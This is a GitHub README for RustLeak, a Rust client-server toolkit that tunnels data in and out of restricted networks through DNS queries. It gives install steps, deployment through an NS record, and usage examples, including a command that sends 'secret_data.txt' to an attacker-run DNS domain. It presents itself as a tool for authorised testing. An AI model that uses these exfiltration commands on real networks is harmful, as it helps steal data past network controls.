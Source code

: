 # **RustLeak**

**RustLeak** is a lightweight and stealthy DNS-based data exfiltration and infiltration toolkit, built with Rust. It can be used in a restricted environment. It consists of two main components:

- **`rustleak-server`**: The custom DNS server that processes data through DNS queries.
- **`rustleak-client`**: The client tool to send or receive data using the server.

---

## **Important Notice**
- You need to set up and host the DNS Server.
- Update your DNS provider settings to redirect DNS traffic to your server.

**Note**: Actual speed is limited:
- **Upload**: ~250 Bytes/s
- **Download**: ~230 Bytes/s

---

## **Features**
- **Custom DNS Server**: Handles DNS zones and processes encoded data.
- **Exfiltration and Infiltration**: Transmit or receive data using DNS queries and responses.
- **Command-Line Interface (CLI)**: Simple commands for sending and receiving data.

---

## **How It Works**
- **Exfiltration**: The client (`rustleak-client`) sends data embedded in DNS queries to the server (`rustleak-server`), which decodes and stores it.
- **Infiltration**: The server responds with data embedded in DNS responses, and the client decodes the received data.

---

## **Possible Upgrades**
- **Single Encryption**: Encrypt data for stealth (Restricted Host <--> DNS Server).
- **Dual Encryption**: Encrypt data for full stealth (Restricted Host <--> DNS Server <--> External Host).
- **Record Type Rotation**: Support additional DNS record types beyond TXT records.
- **Upload Speed Upgrade**: Transfer more labels in upload queries.
- **Download Speed Upgrade**: Transfer more data per download query.

---

## **Installation**

### Prerequisites
- Rust (latest stable version)
- Cargo (Rust package manager)

### Clone the Repository
\`\`\`bash
git clone https://github.com/Natounet/RustLeak.git
cd RustLeak
\`\`\`

### Build the Tools
\`\`\`bash
cargo build --release
\`\`\`

---

## **Usage**

### **Client: \`rustleak-client\`**
The client provides commands to send or receive data via DNS queries. Below are the supported commands:

#### **Send Data**
Use the \`Send\` command to exfiltrate data:
\`\`\`bash
rustleak-client send --code <unique_code> --filename <file_to_send> --domain <dns_server_domain>
\`\`\`

**Options**:
- \`--code\`: A unique identifier for the data being sent.
- \`--filename\`: Path to the file containing the data to be sent.
- \`--domain\`: The domain name managed by the DNS server.

**Example**:
\`\`\`bash
rustleak-client send --code test123 --filename secret_data.txt --domain example.com
\`\`\`

![upload](https://github.com/user-attachments/assets/cb1cfe8d-8ff6-4c0f-a24a-2f25a153ece6)



#### **Receive Data**
Use the \`Receive\` command to retrieve data:
\`\`\`bash
rustleak-client receive --code <unique_code> --filename <output_file> --domain <dns_server_domain>
\`\`\`

**Options**:
- \`--code\`: The unique identifier for the data to retrieve.
- \`--filename\`: Path to the file where the received data will be saved.
- \`--domain\`: The domain name managed by the DNS server.

**Example**:
\`\`\`bash
rustleak-client receive --code test123 --filename received_data.txt --domain example.com
\`\`\`

![download](https://github.com/user-attachments/assets/bd13898f-bcdc-4ddf-8241-50bf65275ed4)


---

### **Server: \`rustleak-server\`**
The server handles DNS queries for a specific domain.

#### **Start the Server**
Run the server and specify the DNS zone to manage:
\`\`\`bash
rustleak-server --domain <dns_zone> 
\`\`\`

**Options**:
- \`--domain\`: The DNS zone to manage (e.g., \`example.com\`).
- \`--port\`: The port for the DNS server (default: 53).
- \`--output\`: File to save data received from clients.

**Example**:
\`\`\`bash
rustleak-server --domain example.com 
\`\`\`

---

## **Deployment**

To deploy \`rustleak-server\` online:
1. Obtain a domain name (e.g., \`example.com\`) and configure its DNS records.
2. Point your domain's **NS record** to the public IP of the machine running \`rustleak-server\`.
3. Start the server with the appropriate domain.

**DNS Configuration Example**:
\`\`\`plaintext
example.com.    IN NS   <server-public-ip>
\`\`\`

---

## **License**
This project is licensed under the **MIT License**. See the [LICENSE](LICENSE) file for details.

---

## **Contributing**
Contributions are welcome! Feel free to submit issues or pull requests for bug fixes or new features.

---

## **Disclaimer**
This tool is intended for **educational purposes** and authorized security testing only. The developer is not responsible for any misuse of this tool.

---

## **Contact**
For any questions or feedback, please open an issue on the [GitHub repository](https://github.com/Natounet/RustLeak).

---
